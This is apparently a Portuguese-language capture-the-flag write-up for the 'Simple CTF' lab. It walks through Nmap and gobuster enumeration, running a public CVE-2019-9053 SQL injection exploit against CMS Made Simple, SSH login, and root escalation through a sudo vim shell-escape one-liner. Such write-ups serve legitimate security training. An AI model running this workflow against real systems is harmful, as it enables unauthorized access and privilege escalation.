









# _Simple CTF_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark> para enumerar portas abertas
> ``` bash
> nmap --open -A -T5 [ip_address]
> ```


Temos as respostas para:  
<mark>_**How many services are running under port 1000?**_</mark>  
<mark>_**What is running on the higher port?**_</mark>  

Agora, vamos executar novamente um scan Nmap, mas para verificar vulnerabilidades
> ``` bash
> nmap --script vuln -T5 [ip_address]
> ```


A única CVE encontrada pelo Nmap foi a **CVE-2007-6750**, porém, não é esta que queremos  
Vamos tentar enumera os diretórios
> ``` bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Vamos investigar <mark>/simple</mark>


Temos resposta para:  
<mark>_**What's the CVE you're using against the application?**_</mark>  

Vasculhando o site por cima, podemos encontrar sua versão de CMS e o próprio CMS  



Temos resposta para:  
<mark>_**To what kind of vulnerability is the application vulnerable?**_</mark>  

O nosso primeiro passo é realizar uma busca no Google por vulnerabilidades referentes a esse CMS  
E temos resultado!  
  

Temos respostas para:  
<mark>_**What's the password?**_</mark> 

Agora, vamos buscar [exploit-db/CVE-2019-9053](https://www.exploit-db.com/exploits/46635) e a partir daí, como podemos explorar essa falha  
Primeiro, copiamos o exploit feito por [Mahamedm](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3) com ``` git clone ```, damos permissão de execução com ``` chmod +x [file_name] ``` e verificamos como executar o script  
Damos a url necessária (../simple) e executamos o código  
Temos retorno!  


Temos respostas para:  
<mark>_**Where can you login with the details obtained?**_</mark>  
<mark>_**Where can you login with the details obtained?**_</mark>  

Vamos realizar um login via ssh e obter mais uma flag com o comando ```cat user.txt```  
O primeiro passo é conseguir escalar privilégios  
Vamos tentar alguns comandos como:
> ``` bash
> find / -writable -type f -name "*.sh" 2>/dev/null
> ```
> ``` bash
> find /bin -perm -4000
> ```
> ``` bash
> sudo -l 
> ```


Temos respostas para:  
<mark>_**What's the user flag?**_</mark>  
<mark>_**Is there any other user in the home directory? What's its name?**_</mark>  
<mark>_**What can you leverage to spawn a privileged shell?**_</mark>  

Observamos que o usuário do qual estamos logados, tem permissões para executar <mark>/usr/bin/vim</mark> como _root_, sem a necessidade de senha!
Vamos usar então o seguinte comando:
> ```bash
> sudo /usr/bin/vim -c ':!/bin/bash'
> ```

Pelo <mark>vim</mark> ser mais do que apenas um editor de texto, e executar comandos, este simples nos garante _root_  
Vamos em busca da última flag  
Um simples comando find fará o necessário  
> ``` bash
> find / -name ‘root.txt’ 2>/dev/null
> ```

Temos respostas para:
<mark>_**What's the root flag?**_</mark>
